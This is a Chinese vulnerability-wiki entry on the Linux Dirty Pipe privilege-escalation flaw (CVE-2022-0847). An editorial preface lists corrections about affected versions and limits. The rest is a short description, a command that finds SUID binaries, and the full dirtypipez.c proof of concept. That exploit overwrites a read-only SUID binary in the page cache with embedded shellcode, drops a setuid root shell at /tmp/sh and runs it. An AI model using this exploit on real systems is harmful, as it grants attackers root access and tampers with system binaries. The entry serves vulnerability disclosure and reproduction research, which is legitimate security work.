

# Linux-DirtyPipe-权限提升漏洞-CVE-2022-0847

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Linux pipe_buffer
- 文献类型：含完整C PoC的复现条目
- 版本、权限及部署边界：Linux>=5.8但应排除修复版；需可读目标，PoC为x86_64 SUID程序，页内写入受边界限制
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 影响Linux5.8及之后无修复上界且没有修复章节，会把已修复内核永远标漏洞
2. C代码明确页边界限制、文件只读与内置x86_64 ELF，但正文任意文件覆盖过度概括，需前置架构/可读/页内限制
3. 利用改写SUID、尝试恢复但遗留/tmp/sh，需风险和清理提示；不执行
4. 完整源码包含许可/作者与dirtypipe原研究链接，可保留；截图测试缺内核构建/初始身份
5. Dirty Cow只是对比，不同CVE与机制，不可按Dirty通名合并

### 操作风险

C代码明确页边界限制、文件只读与内置x86_64 ELF，但正文任意文件覆盖过度概括，需前置架构/可读/页内限制

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://dirtypipe.cm4all.com/>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

CVE-2022-0847 是存在于 Linux内核 5.8 及之后版本中的本地提权漏洞。攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 CVE-2022-0847 的漏洞原理类似于 CVE-2016-5195 脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”

## 漏洞影响

```
Linux内核 5.8 及之后版本
```

## 漏洞复现

查找具有suid权限的可执行文件

```
find / -user root -perm /4000 2>/dev/null
```

编译POC文件后，指定修改的`Suid可执行文件`，获取root权限




## 漏洞POC

```c
//
// dirtypipez.c
//
// hacked up Dirty Pipe (CVE-2022-0847) PoC that hijacks a SUID binary to spawn
// a root shell. (and attempts to restore the damaged binary as well)
//
// Wow, Dirty CoW reloaded!
//
// -- blasty <peter@haxx.in> // 2022-03-07

/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

// small (linux x86_64) ELF file matroshka doll that does;
//   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
//   write(fd, elfcode, elfcode_len)
//   chmod("/tmp/sh", 04755)
//   close(fd);
//   exit(0);
//
// the dropped ELF simply does:
//   setuid(0);
//   setgid(0);
//   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
	/*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
	0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
	0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
	0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
	0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
	0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
	0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
	0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
	0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
	0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
	0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
	0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
	0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
	if (pipe(p)) abort();

	const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
	static char buffer[4096];

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}

int hax(char *filename, long offset, uint8_t *data, size_t len) {
	/* open the input file and validate the specified offset */
	const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
	if (fd < 0) {
		perror("open failed");
		return -1;
	}

	struct stat st;
	if (fstat(fd, &st)) {
		perror("stat failed");
		return -1;
	}

	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return -1;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return -1;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, len);
	if (nbytes < 0) {
		perror("write failed");
		return -1;
	}
	if ((size_t)nbytes < len) {
		fprintf(stderr, "short write\n");
		return -1;
	}

	close(fd);

	return 0;
}

int main(int argc, char **argv) {
	if (argc != 2) {
		fprintf(stderr, "Usage: %s SUID\n", argv[0]);
		return EXIT_FAILURE;
	}

	char *path = argv[1];
	uint8_t *data = elfcode;

	int fd = open(path, O_RDONLY);
	uint8_t *orig_bytes = malloc(sizeof(elfcode));
	lseek(fd, 1, SEEK_SET);
	read(fd, orig_bytes, sizeof(elfcode));
	close(fd);

	printf("[+] hijacking suid binary..\n");
	if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}

	printf("[+] dropping suid shell..\n");
	system(path);

	printf("[+] restoring suid binary..\n");
	if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}

	printf("[+] popping root shell.. (dont forget to clean up /tmp/sh ;))\n");
	system("/tmp/sh");

	return EXIT_SUCCESS;
}
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
